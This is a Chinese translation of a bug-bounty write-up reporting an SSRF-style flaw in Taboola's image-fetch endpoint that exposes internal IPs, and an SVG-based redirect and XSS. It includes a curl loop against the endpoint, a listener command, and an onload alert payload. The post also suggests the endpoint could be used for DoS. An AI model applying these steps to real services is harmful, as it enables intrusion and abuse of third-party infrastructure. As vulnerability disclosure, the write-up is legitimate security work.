



# Taboola 上的一个有趣的端点揭示了内部 IPs 和 XSS

> 原文：<https://infosecwriteups.com/a-juicy-endpoint-on-the-taboola-leads-to-reveal-internal-ips-and-xss-d136364a6fb?source=collection_archive---------3----------------------->

我通常每天都会阅读关于安全的新闻，其中一个网站是 [ZDNet](https://www.zdnet.com/) 。在页面底部有一个由 Taboola 推荐广告的空间。


作为一个安全爱好者，我总是尽可能地看一看😁

只需右击广告，通过**检查元素**找到一个有趣的端点。端点从 Taboola CDN 获取图片。

```
[https://images.taboola.com/taboola/image/fetch/](https://images.taboola.com/taboola/image/fetch/)
```

如果您在此端点后插入外部 URL 图像，Taboola 服务器将处理并显示该图片。Taboola 不会检查图片是否来自 CDN！

如果我通过这个端点从 Taboola 向我服务器发送一个请求，会发生什么？于是我就做了，找到了 Taboola 内部 IPs。

我已经通过以下命令准备好了我的服务器，用于监听端口 8000

```
python -m SimpleHTTPServer 8000
```

并通过以下代码从我的 PC 向服务器发送多个请求:

```
for number in {1..100}
do curl -i [https://images.taboola.com/taboola/image/fetch/http://S](https://images.taboola.com/taboola/image/fetch/http://{target)ERVER_IP:8000/$number
done
```

反应非常惊人！！！

Taboola 使用快速 CDN，每当你 ping images.taboola.com**时，你会收到以下响应:**

```
ping images.taboola.com
PING tls13.taboola.map.fastly.net (151.101.193.44) 56(84) bytes of data.
```

**但是我找到了亚马逊的内部 IP！！！**

****

**所以，有了这个有趣的端点，你可以代表 Taboola 服务器运行 DOS 攻击。**

**此外，这些服务器在 22 和 80 上有开放端口，其中一个服务器上有两个 CVE。**

****

**也许您认为这个端点处理图像并接受 SVG 图像😉**

**找到一个 SVG 图像，用文本编辑器打开它。添加以下代码并上传到互联网上。**

****

**最后，我们有这个链接:**

```
[https://images.taboola.com/taboola/image/fetch/**https://www.linkpicture.com/q/dog.svg**](https://images.taboola.com/taboola/image/fetch/https://www.linkpicture.com/q/dog.svg)
```

**不幸的是，端点不能正确处理 SVG 图像，浏览器将下载该文件。但如果你使用 Chrome 或 IE 浏览器，点击下载的图片打开图片，你会重定向到**evil.com****

**您可以将 SVG 文件中的有效负载更改为以下代码来执行 XSS:**

```
onload='alert("XSS")'
```

**我已经在 Taboola 上发现了这些 bug，并在 2020 年 3 月给支持团队发了邮件。他们到现在才回复我！**

**我的推特:[https://twitter.com/seqrity9](https://twitter.com/seqrity9)**